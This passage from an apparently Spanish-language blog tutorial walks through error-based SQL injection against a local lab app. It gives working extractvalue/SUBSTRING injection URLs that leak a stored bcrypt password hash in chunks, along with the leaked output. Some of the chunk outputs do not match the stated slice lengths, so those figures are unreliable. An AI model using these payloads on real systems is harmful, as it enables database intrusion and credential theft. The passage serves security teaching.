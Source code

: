 ```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SUBSTRING('holaestaeslacontraseña,peronosevecompletayestamosasustaos',1,32))));#
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-substring-holaestaeslacontrasena-only-32-chars.png" style="width: 100%;"/>

Y si intentamos extraer 60 caracteres, nos sigue mostrando 32:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-substring-holaestaeslacontrasena-60-chars-invalid-only-32.png" style="width: 100%;"/>

Así que he ahí la razón por la que ninguna herramienta nos detectó el algoritmo, nuestro hash está incompleto.

Pero ya vimos la solución, empleemos [SUBSTRING](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_substring) para extraer de a 20 caracteres e irnos moviendo y así aseguramos obtener la cadena completa.

🥇 Los primeros 20:

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SUBSTRING((SELECT password_hash FROM gamesatin.gamesatin_users LIMIT 0,1),1,20))));#
```

```txt
$2y$10$tQcW5eKQwlfoE
```

🥈 Los siguientes 20:

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SUBSTRING((SELECT password_hash FROM gamesatin.gamesatin_users LIMIT 0,1),21,20))));#
```

```txt
IR9tBvNfuBpKMc42zwDmjRFr3sRJOIX
```

Y el valor total contendría:

```txt
$2y$10$tQcW5eKQwlfoEIR9tBvNfuBpKMc42zwDmjRFr3sRJOIX
```

🥉 Los siguientes 20:

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SUBSTRING((SELECT password_hash FROM gamesatin.gamesatin_users LIMIT 0,1),41,20))));#
```

```txt
RFr3sRJOIXEEvi5PYDC
```

El valor final del hash sería (validando ya no existen más caracteres):

```txt
$2y$10$tQcW5eKQwlfoEIR9tBvNfuBpKMc42zwDmjRFr3sRJOIXEEvi5PYDC
```
